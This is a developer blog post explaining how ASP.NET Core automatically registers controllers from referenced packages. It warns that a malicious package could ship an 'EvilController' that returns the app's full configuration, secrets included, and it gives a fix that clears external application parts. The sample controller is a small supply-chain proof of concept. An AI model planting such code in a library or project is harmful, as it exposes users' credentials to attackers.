 ```yaml
---
layout: post
title:  "ASP.NET Core ApplicationPart & EvilController 😱"
date:   2019-12-16 20:40:00 +0100
tags: [C#,.NET Core,ASP.NET Core]
comments: true
---
```


Do you blindly trust third-party libraries?
What if this package contains e.g. following code and you reference it in your ASP.NET Core project?

```csharp
[ApiController]
[Route("[controller]")]
public class EvilController : ControllerBase
{
    [HttpGet]
    public IEnumerable<KeyValuePair<string, string>> Get()
    {
        var configuration = HttpContext.RequestServices.GetService(typeof(IConfiguration)) as IConfiguration;

        return configuration.AsEnumerable().OrderBy(p => p.Key);
    }
}
```

If author (attacker) calls `your-site-url/evil`, than can get the following result:

![](https://gist.github.com/Burgyn/1fafbffcb737b4a73341ae2f7dd1626b/raw/ec45967614cb362c41aa4acd23afed8221e03d2a/EvilOutput.png)

> Of course the code in this controller can be more dangerous.

Do not believe? Try this [demo](https://github.com/Burgyn/Sample.EvilControllers).

## Surprising?

At first glance, yes. Documentation and blog posts say that if we want to add controllers from external assemblies, we need to add `ApplicationPart` by calling `mvcBuilder.AddApplicationPart(assembly);`.
But we do not call anything like this. So why is external `EvilController` discovered?

Answer is [AspNet Core build tooling](https://github.com/aspnet/AspNetCore-Tooling/pull/598) and [ApplicationPartAttribute](https://docs.microsoft.com/en-us/dotnet/api/microsoft.aspnetcore.mvc.applicationparts.applicationpartattribute?view=aspnetcore-3.0).

_AspNet Core build tooling_ discovers dependencies that reference MVC features _(in dependencies tree)_ and add them as `ApplicationPartAttribute` to your assembly _(during build time)_. When _ASP.NET Core_ application starts, it use the [ApplicationPartManger](https://github.com/aspnet/AspNetCore/blob/master/src/Mvc/Mvc.Core/src/ApplicationParts/ApplicationPartManager.cs) for adding external assembly as `ApplicationParts`. By default, `ApplicationPartManager` searches for `ApplicationPartAttribute`. That's why the package with `EvilController` is added as an `ApplicationPart` to your application.

## How to avoid it?

Do not use suspicious packages! 😊

Okay, but what if I don't want to study the external library in detail and still want to use it?

In this case, you can remove external application parts from your application. For example:

```csharp
public void ConfigureServices(IServiceCollection services)
{
    services.AddControllers()
        .ConfigureApplicationPartManager(o =>
        {
            o.ApplicationParts.Clear();
            o.ApplicationParts.Add(new AssemblyPart(typeof(Startup).Assembly));
        });
}
```

## References

- [More info about ApplicationPart](https://docs.microsoft.com/en-us/aspnet/core/mvc/advanced/app-parts?view=aspnetcore-3.1)

---

If you liked this article, let me know about it at this [voting poll](https://app.swallowpoll.com/NYBznJrhGr).
